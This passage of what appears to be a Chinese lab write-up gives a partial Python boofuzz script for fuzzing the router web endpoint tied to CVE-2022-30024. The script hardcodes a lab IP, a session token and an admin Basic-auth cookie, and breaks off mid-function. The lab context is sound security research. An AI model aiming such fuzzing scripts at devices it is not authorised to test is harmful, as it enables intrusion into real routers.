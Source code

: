 ![](./img/异常请求.png)

#### 实验内容：

##### 完成针对 CVE-2022-30024 漏洞进⾏模糊测试的 boofuzz 脚本

所以根据以上的内容，可以编写一个boofuzz脚本进行模糊测试，对 PingIframeRpm.htm 接口做手动与自动字段模糊测试

半自动测试手动指定字段：
```py
import socket, time, signal, sys
from boofuzz import *
from boofuzz.connections import TCPSocketConnection


IP, PORT = "192.168.131.6", 32769
TOKEN    = "JQRATBAAKBPWUMEB"
COOKIE   = ("Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0"
            "YTBlNGE4MDFmYzM%3D")   
BASE     = f"/{TOKEN}/userRpm/PingIframeRpm.htm"


IDLE = 0.8        
PREVIEW = 200  


class SyncVerboseConn(TCPSocketConnection):
    def __init__(self, *a, **kw):
        super().__init__(*a, **kw)
        self.idle = IDLE

    def open(self):
        super().open()
        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        if sock:
            sock.settimeout(self.idle)

    def send(self, data, *args, **kwargs):
        super().send(data, *args, **kwargs)

        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        chunks, last = [], time.time()
```